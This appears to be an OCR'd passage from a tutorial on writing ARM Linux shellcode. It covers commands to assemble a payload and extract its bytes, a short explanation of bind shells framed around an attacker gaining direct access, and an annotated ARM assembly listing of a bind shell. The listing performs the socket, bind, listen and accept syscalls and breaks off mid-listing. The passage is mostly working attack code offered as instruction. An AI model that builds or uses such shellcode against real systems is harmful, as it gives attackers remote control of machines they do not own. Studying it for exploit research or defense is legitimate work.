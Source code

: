 
```bash
arm-linux-gnueabihf-objdump -d example.o | python shellcode_extractor.py
```

:LiNotebookPen:
```bash
as -o shellcode.o shellcode.s
ld -o shellcode shellcode.o
objcopy -O binary --only-section=.text shellcode shellcode.bin
```

### **Bind Shell**

A **bind shell** is a shellcode that opens a network socket on the target machine, waits for incoming connections, and provides a shell once a connection is made. The attacker can connect to the target machine on the specified port to gain control.

- **How It Works**: The shellcode binds a port on the target machine, listens for incoming network connections, and once a connection is established, it transfers the input and output to the attacker’s session.
- **Use Case**: This type of shellcode is typically used when an attacker wants to **directly access** the target machine through a known network port.


```s title:bind.s
.section .text
.global _start

_start:
    // ========== SOCKET CREATION ==========
    // socket(AF_INET, SOCK_STREAM, 0)
    mov r0, #2      // AF_INET = 2
    mov r1, #1      // SOCK_STREAM = 1
    mov r2, #0      // Protocol = 0 (IP)
    mov r7, #281    // socket syscall number
    svc #0
    // Check for errors (r0 = -1 if error)
    cmp r0, #0
    ble error
    mov r4, r0      // Save socket fd in r4

    // ========== BIND SOCKET ==========
    // bind(sockfd, &sockaddr, 16)
    adr r1, sockaddr // Pointer to sockaddr structure
    mov r2, #16      // sizeof(sockaddr) = 16
    mov r0, r4       // socket fd
    mov r7, #282     // bind syscall number
    svc #0
    // Check for errors
    cmp r0, #0
    blt error

    // ========== LISTEN ==========
    // listen(sockfd, 1)
    mov r0, r4      // socket fd
    mov r1, #1      // backlog = 1
    mov r7, #284    // listen syscall number
    svc #0
    // Check for errors
    cmp r0, #0
    blt error

    // ========== ACCEPT CONNECTION ==========
    // accept(sockfd, NULL, NULL)
    mov r0, r4      // socket fd
    mov r1, #0      // NULL sockaddr
```